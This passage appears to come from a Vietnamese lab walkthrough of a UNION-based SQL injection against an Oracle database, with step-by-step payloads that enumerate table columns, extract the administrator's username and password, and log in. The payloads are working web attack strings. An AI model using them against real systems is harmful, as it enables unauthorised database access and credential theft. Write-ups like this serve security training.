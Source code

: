 ![A screen shot of a computer AI-generated content may be
incorrect.](image/image6.png){width="6.260416666666667in"
height="1.5416666666666667in"}

Dùng payload trên thì có lỗi, tức là đây không phải bản đúng, thử bảng
**APP_ROLE_MEMBERSHIP**

\'+union+select+COLUMN_NAME,NULL+from+ALL_TAB_COLUMNS+where+TABLE_NAME+=+\'**APP_ROLE_MEMBERSHIP\'**\--

Bảng  **APP_ROLE_MEMBERSHIP** cũng gặp lỗi

Thử bảng cuối cùng **USERS_KNNNGC**

\'+union+select+COLUMN_NAME,NULL+from+ALL_TAB_COLUMNS+where+TABLE_NAME+=+\'**USERS_KNNNGC\'**\--

![A screenshot of a computer AI-generated content may be
incorrect.](image/image7.png){width="6.270833333333333in"
height="3.1770833333333335in"}

Ta khai thác được bảng gồm các cột sau: EMAIL, PASSWORD_HADASO,
USERNAME_UFIRSY

Bước 5: Ta đã có đầy đủ các thành phần, giờ chỉ cần payload khai thác
tài khoảng và mật khẩu của administrator sau đó đăng nhập vào tài khoảng
là xong

\' union select USERNAME_UFIRSY,PASSWORD_HADASO from USERS_KNNNGC\--

encode

\'+union+select+USERNAME_UFIRSY,PASSWORD_HADASO+from+USERS_KNNNGC\--

![A screenshot of a computer AI-generated content may be
incorrect.](image/image8.png){width="6.270833333333333in"
height="2.8854166666666665in"}

![A white background with black lines AI-generated content may be
incorrect.](image/image9.png){width="6.270833333333333in"
height="0.9166666666666666in"}

Ta khai thác được tài khoảng của administrator như sau

username:administrator, password: qraw1uzjh8vjue12y6c4

Tiến hành đăng nhập

![A screenshot of a computer AI-generated content may be
incorrect.](image/image10.png){width="6.270833333333333in"
height="3.2083333333333335in"}
